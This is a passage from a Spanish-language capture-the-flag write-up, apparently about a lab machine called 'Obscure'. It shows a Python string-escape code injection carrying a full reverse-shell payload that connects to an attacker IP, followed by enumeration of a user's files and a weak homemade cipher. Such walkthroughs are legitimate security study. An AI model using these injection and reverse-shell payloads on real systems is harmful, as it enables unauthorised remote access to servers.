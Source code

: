 
```
';'
```

Que se interpretaría en el servidor como:

```python
output = 'Document: ';''
```

Entre el el punto y coma y la última comilla podemos escribir nuestro código
malicioso, que por si no lo has notado, debe de ser python 3. Por ejemplo
podemos crear una reverse shell.

```python
';import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.198",3355));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash");'
```

Este código lo que hace es crear un nuevo socket, conectarse a nuestra
computadora, redirigir `stdin`, `stdout` y `stderr` al socket y crear una nueva
shell interactiva usando `pty`. En el servidor eso equivaldría al siguiente
programa

```python
output = 'Document: '
import socket, os, pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.198",3355))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
''
```

# Movimiento lateral

Ahora que tenemos acceso a la máquina podemos buscar la forma de controlar algún
usuario regular o obtener acceso a la cuenta de root. Con un poco de enumeración
podemos ver que tenemos acceso de lectura a los documentos del usuario `robert`,
ahí podemos encontrar el programa que implementa el algoritmo de cifrado
"irrompible" que se mencionaba en la página web, también encontramos un par de
archivos interesantes, check.txt y out.txt.

```
www-data@obscure:/home/robert$ ls
BetterSSH  out.txt               SuperSecureCrypt.py
check.txt  passwordreminder.txt  user.txt
```

De acuerdo con check.txt, cifrar ese archivo con la llave debería resultar en el
archivo out.txt. Si revisamos el archivo SuperSecureCrypt.py vemos que
implementa un algoritmo de cifrado muy sencillo, toma una llave y un mensaje,
convierte cada carácter a un valor numérico y luego los suma posición a posición
y el resultado es el nuevo carácter cifrado
